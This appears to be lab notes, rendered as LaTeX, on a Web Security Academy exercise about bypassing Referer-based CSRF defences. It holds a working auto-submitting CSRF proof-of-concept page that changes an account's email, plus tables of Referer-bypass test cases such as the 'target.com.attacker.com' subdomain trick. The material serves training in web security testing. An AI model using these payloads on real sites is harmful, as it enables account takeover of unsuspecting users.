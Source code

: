 \documentclass{article}
\begin{document}
\begin{lstlisting}[frame=single]
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae30066047b8a858251259a00ed0054.web-secur
    ity-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ssf&#64;mdsail&#46;com"/>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae30066047b8a858251259a00ed0054.web-s
      ecurity-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
\end{lstlisting}

Note $\Longrightarrow$ the last parameter in method "history.pushState" is the query parameter which is the vuln website as you see


\subsection*{General Testing Methodology}

\subsubsection*{1. Referer Header Analysis}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Test} & \textbf{Procedure} \\
    \midrule
    Header presence check & Verify if application checks for Referer header existence \\
    Validation logic & Determine how Referer domain is validated \\
    Absent header handling & Test requests with Referer header completely removed \\
    \bottomrule
\end{tabular}

\subsubsection*{2. Validation Logic Testing}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Test Case} & \textbf{Expected Result} \\
    \midrule
    Subdomain bypass & Application accepts \texttt{target.com.attacker.com} as valid \\
    Query string inclusion & Application accepts Referer with target in query parameters \\
    Path manipulation & Application accepts Referer with target in path \\
    Protocol variations & Test HTTP vs HTTPS Referer handling \\
    \bottomrule
\end{tabular}
\end{document}
